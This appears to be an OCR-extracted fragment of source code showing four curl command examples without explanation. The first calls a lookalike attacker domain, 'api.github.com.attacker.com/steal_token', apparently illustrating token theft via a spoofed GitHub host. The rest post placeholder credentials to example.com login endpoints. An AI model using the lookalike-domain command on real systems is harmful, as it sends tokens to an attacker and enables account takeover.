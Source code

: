 
'''sh
curl -X GET "https://api.github.com.attacker.com/steal_token"
'''

''' sh 
curl -X POST -d "username=admin&password=1234" https://example.com/login
'''

''' sh 
curl -X POST -H "Content-Type: application/json" -d '{"username":"admin","password":"1234"}' https://example.com/api/login
'''

''' sh 
curl -H "Authorization: Bearer YOUR_TOKEN" https://example.com/api/data
'''


